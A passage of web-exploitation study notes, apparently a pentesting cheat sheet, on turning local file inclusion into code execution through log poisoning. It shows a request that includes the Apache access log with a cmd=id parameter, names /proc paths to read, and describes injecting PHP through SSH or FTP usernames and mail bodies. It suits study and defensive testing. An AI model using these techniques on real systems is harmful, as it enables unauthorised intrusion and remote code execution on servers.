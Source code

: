 Then include the log:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id
```
### Alternatives: /proc Log Poisoning

Include process environment or file descriptors:

- `/proc/self/environ`
- `/proc/self/fd/<0-50>`

If readable, you may find poisoned headers here as well. This is useful when `/var/log/...` files aren’t accessible.
### Other Log Files That Can Be Exploited
###### If LFI grants read access, poison:

- `/var/log/sshd.log`
- `/var/log/mail`    
- `/var/log/vsftpd.log`

Technique:

- Inject PHP code in usernames (SSH/FTP)
- Send malicious mail body    
- Include logs via LFI

> ✅ Works if logs store attacker-controlled input and are readable via LFI.

# Tags
> #Web-Exploitation #LFI #RCE #Filters #Wrappers  